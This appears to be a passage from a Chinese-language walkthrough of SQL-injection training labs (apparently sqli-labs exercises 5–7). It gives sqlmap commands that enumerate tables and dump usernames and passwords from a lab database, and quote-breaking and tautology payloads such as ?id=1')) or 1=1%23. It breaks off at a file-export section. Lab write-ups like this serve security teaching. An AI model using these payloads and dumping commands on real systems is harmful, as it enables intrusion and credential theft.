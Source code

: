 ```cmd
python sqlmap.py -u "http://10.12.202.251:24914/Less-5/?id=1" -D security --tables
```

```
python sqlmap.py -u "http://10.12.202.251:24914/Less-5/?id=1" -D security -T users --columns
```

```cmd
python sqlmap.py -u "http://10.12.202.251:24914/Less-5/?id=1" -D security -T users -C "id,password,username" --dump
```

![image-20211207125756925](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020056790.png)



## 实验六	双注入GET双引号字符型注入

输入`?id=1`，同样没有回显，只显示You are in.......

![image-20211207125849213](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020056998.png)

输入`?id=1'`，也可以正常回显：

![image-20211207130000251](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020056675.png)

再尝试输入`?id=1"`，回显报错信息：`near '"1"" LIMIT 0,1' at line 1`，猜测后台sql语句：`select * from where id =("input")`

![image-20211207130035112](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020056426.png)

构造输入进行验证：

`?id=1" and 1=1%23`，正常回显

`?id=1" and 1=2%23`，无回显，说明猜测正确

之后的步骤和实验五相同，只不过要把`?id=1'`改为`?id=1"`



## 实验七	导出文件GET字符型注入

尝试输入：`?id=1' or 1=1%23`、`?id=1" or 1=1%23`、`?id=1') or 1=1%23`都失败了。

输入`?id=1')) or 1=1%23`成功：

![image-20211207131602376](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020056342.png)



#### 1、布尔盲注

同实验5，把`?id=1'`改为`?id=1'))`即可。这道题不能用双注入。



#### 2、导出文件注入
